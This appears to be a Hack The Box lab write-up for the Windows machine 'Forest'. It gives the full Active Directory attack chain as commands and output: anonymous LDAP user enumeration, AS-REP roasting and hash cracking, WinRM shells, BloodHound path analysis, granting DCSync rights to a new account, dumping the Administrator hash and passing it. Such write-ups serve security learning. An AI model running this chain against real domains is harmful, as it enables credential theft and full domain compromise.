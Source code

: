 ```yaml
---
target_ip: 10.10.10.161
platform: HTB
difficulty: Easy
os: Windows
date_started: 2025-06-14
status: in_progress
services: ['kpasswd5', 'microsoft-ds', 'msrpc', 'netbios-ssn', 'kerberos-sec', 'domain', 'ldap', 'ncacn_http', 'http', 'tcpwrapped']
techniques_used: []
tools_used: [nmap]
---
```


# Forest

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 14/06/2025

## Summary

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.10.161 -oA nmap/forest
```

| Port | Service      | Version                                         |
| ---- | ------------ | ----------------------------------------------- |
| 53   | domain       | Simple DNS Plus                                 |
| 88   | kerberos-sec | Microsoft Windows Kerberos                      |
| 135  | msrpc        | Microsoft Windows RPC                           |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                   |
| 389  | ldap         | Microsoft Windows Active Directory LDAP         |
| 445  | microsoft-ds | Windows Server 2016 Standard 14393 microsoft-ds |
| 464  | kpasswd5     | N/A                                             |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0             |
| 636  | tcpwrapped   | N/A                                             |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP         |
| 3269 | tcpwrapped   | N/A                                             |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                     |

## Enumeration

Generated and appended a hosts file to `/etc/hosts` to avoid possible DNS issues later on with Kerberos.
```bash
nxc smb '10.10.10.161' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

tail -n 1 /etc/hosts
10.10.10.161     FOREST.htb.local FOREST
```

Enumerated the domain users.
```bash
nxc ldap 'FOREST' -u '' -p '' -d 'htb.local' --active-users | awk '{print $5}' | grep -v '^[H,\[,-]' > files/users.txt && cat files/users.txt 


Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

## Exploitation

Performed an AS-REP Roast attack on the list of users, to find a service account `svc-alfresco` with Kerberos pre-authentication disabled.
```bash
nxc ldap 'FOREST' -u files/users.txt  -p '' -d 'htb.local' --asreproast files/roast.txt     

...
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:d92213ff872a80624a412d802a52b446$...
```

I then cracked its AS-REP hash with `hashcat` to reveal its password `s3rvice`.
```bash
hashcat -m 18200 -a 0 files/roast.txt /usr/share/wordlists/rockyou.txt

...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b73c81fb8c33164c016884a6be75e669$2beb8c478e9b6f4b0b1ee2aeaba1821f22f189957bf8b9ee4f15f5ac1317a7c3678fd71f9fc0d926a3529dbfed42c26bf119bf475f96a38af3bdb1b0c6085cff57e63015e95b3fec76271c4736df2fb34c46edbca9614f05eee7e8c2c0e524aa2acd07de8a1b17feb7380c29ea75f86f328868bc893b9a36f41ba6f67ff3a02ff4ce1e2784868cc156b91ab5f5aa3a3f91e61fca6b61ab70dbd9e20a0f49a653078d638bf2588ad564c1c91d601cc07f7fc10b0e22f4b5803a0e8540eef8f2e1e9fd3e45525337b6ca0ef27788ae6ef610822c8e0147fd9b39919e8739a872ca3584d7658274:s3rvice
...
```

Discovered I could login to the service account via `winrm` on port `5985`.
```bash
nxc winrm 'FOREST' -u 'svc-alfresco' -p 's3rvice' -d 'htb.local'

WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Used `evil-winrm` to get a remote shell.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\svc-alfresco' -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

User flag was in `svc-alfresco`'s Desktop.
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> more ../Desktop/user.txt
```



## Privilege Escalation

SharpHound was already on the machine in the `svc-alfresco` user's home directory. I ran it to collect everything.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> .\hound.exe -c all --zipfilename loot.zip

...
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-06-14T16:09:59.0652881-07:00|INFORMATION|SharpHound Enumeration Completed at 4:09 PM on 6/14/2025! Happy Graphing!
```

And downloaded it to my machine.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20250614160957_loot.zip
                                        
Info: Downloading C:\Users\svc-alfresco\20250614160957_loot.zip to 20250614160957_loot.zip                  
```

So I started Bloodhound
```bash
sudo ./bloodhound-cli containers start

[+] Checking the status of Docker and the Compose plugin...
[+] Starting the BloodHound environment
[+] Running `docker` to restart containers with docker-compose.yml...
```

Imported the SharpHound data `20250614160957_loot.zip` and run a Custom Cypher Query to view the shortest path from owned principles to tier 0:
```
MATCH p = allShortestPaths((u:User)-[:AbuseTGTDelegation|AllowedToDelegate|HasSIDHistory|ADCSESC1|CanPSRemote|HasSession|ADCSESC10a|CanRDP|MemberOf|ADCSESC10b|CoerceAndRelayNTLMToADCS|Owns|ADCSESC13|CoerceAndRelayNTLMToLDAP|OwnsLimitedRights|ADCSESC3|CoerceAndRelayNTLMToLDAPS|ReadGMSAPassword|ADCSESC4|CoerceAndRelayNTLMToSMB|ReadLAPSPassword|ADCSESC6a|CoerceToTGT|SameForestTrust|ADCSESC6b|Contains|SpoofSIDHistory|ADCSESC9a|DCFor|SQLAdmin|ADCSESC9b|DCSync|SyncedToEntraUser|AddAllowedToAct|DumpSMSAPassword|SyncLAPSPassword|AddKeyCredentialLink|ExecuteDCOM|WriteAccountRestrictions|AddMember|ForceChangePassword|WriteDacl|AddSelf|GPLink|WriteGPLink|AdminTo|GenericAll|WriteOwner|AllExtendedRights|GenericWrite|WriteOwnerLimitedRights|AllowedToAct|GoldenCert|WriteSPN*1..]->(b:Base))
WHERE "owned" IN split(u.system_tags, " ")
  AND "admin_tier_0" IN split(b.system_tags, " ")
RETURN p
LIMIT 1000
``` 

To reveal that the "`Exchange Windows Permissions`" group has `WriteDACL` over the domain, leaving it vulnerable to a "DCSync" attack.
![[Pasted image 20250615014133.png]]
To perform the DCSync attack, I firstly created a new credential object and domain user account called "wither"
```powershell
$SecPass = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\\wither', $SecPass)
New-ADUser -Name "wither" -SamAccountName "wither" -AccountPassword $SecPass -Enabled $true
```

Then added it to the "Exchange Windows Permissions" group.
```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members wither
```

So I could give it DCSync permissions.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity wither -Rights DCSync -TargetIdentity "DC=htb,DC=local" -Credential $Cred -Verbose

...
Verbose: [Add-DomainObjectAcl] Granting principal CN=wither,CN=Users,DC=htb,DC=local 'DCSync' on DC=htb,DC=local
...
```

And use it to dump the `Administrator`'s password hash.
```bash
wither@kali:~/CTF/HTB/Forest/files$ secretsdump.py 'HTB'/'wither':'password'@'FOREST' 

...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
[*] Kerberos keys grabbed
...
[*] Cleaning up...
```

Which I could then "Pass" in `evil-winrm` to get a shell.
```bash
evil-winrm -i 'FOREST' -u 'htb.local\Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

And get the root flag in the `Administrator`'s Desktop.
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ..\Desktop\root.txt
```

## References

- [ASREPRoast \| NetExec](https://www.netexec.wiki/ldap-protocol/asreproast)
- [AS-REP Roasting \| Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [bloodhoundce-resources/custom\_queries/BloodHound\_CE\_Custom\_Queries.md at main · CompassSecurity/bloodhoundce-resources · GitHub](https://github.com/CompassSecurity/bloodhoundce-resources/blob/main/custom_queries/BloodHound_CE_Custom_Queries.md)
- [HackTricks/windows-hardening/active-directory-methodology/dcsync.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/dcsync.md)
- [AD Series \| DC Sync Attacks. DCSync Attack is a type of “credential… \| by Urshila Ravindran \| Medium](https://medium.com/@urshilaravindran/ad-series-dc-sync-attacks-e76bb54308f5)


 ![[Pasted image 20250615015812.png]]




---
#forest #htb #easy #windows #netexec #asreproast #hashcat #evil-winrm #bloodhound #sharphound #dcsync #pass-the-hash
